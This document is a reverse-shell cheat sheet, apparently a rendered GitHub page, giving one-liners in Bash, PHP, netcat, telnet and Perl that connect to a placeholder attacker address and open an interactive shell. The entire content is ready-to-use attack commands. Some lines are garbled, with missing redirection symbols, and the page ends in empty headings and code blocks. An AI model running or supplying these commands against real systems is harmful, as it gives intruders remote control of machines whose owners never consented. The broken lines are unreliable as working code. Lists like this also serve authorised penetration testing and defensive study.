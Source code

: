 # Bash Reverse Shells

```bash
exec /bin/bash 0&0 2>&0

```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

# PHP Reverse Shell

```php

php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

# Netcat Reverse Shell

```shell

nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

```

# Telnet Reverse Shell

```bash

rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

```

# Perl Reverse Shell

```perl

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

#

```

```

#

```

```

#

```

```

#

```

```
